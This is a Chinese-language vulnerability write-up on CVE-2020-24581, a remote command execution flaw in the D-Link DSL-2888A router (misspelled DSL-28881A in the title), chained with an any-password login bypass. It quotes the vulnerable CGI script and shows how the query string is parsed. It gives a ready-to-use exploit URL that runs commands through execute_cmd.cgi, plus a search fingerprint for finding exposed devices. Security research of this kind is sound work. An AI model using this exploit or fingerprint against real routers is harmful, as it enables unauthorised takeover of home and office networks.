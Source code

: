# D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](/assets/PeiQi-Wiki/img/link-1.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 `execute_cmd.cgi` 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```



这里取出 `${QUERY_STRING}` 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 `/www/js/ajax.js`

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```



看一下过程



```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```



这里取第二个参数 `whoami` 然后就没有过滤的执行了



所以EXP为:



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```



![img](/assets/PeiQi-Wiki/img/link-4.png)

